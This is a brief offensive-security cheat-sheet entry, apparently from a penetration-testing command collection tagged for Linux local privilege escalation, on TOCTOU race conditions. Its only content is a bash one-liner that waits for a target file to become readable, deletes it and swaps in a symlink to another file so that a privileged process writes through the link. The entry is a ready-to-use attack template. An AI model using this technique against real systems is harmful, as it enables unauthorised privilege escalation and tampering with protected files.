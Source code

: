 # race condition

% toctou, race condition
#plateform/linux #target/local #cat/PRIVESC 

## change a file by a symlink when found
```bash
while true ; do N=<file_to_search> ; if [[ -r $N ]] ; then rm $N ; ln -s <symlink_target_file> $N ; break; fi ; done
```
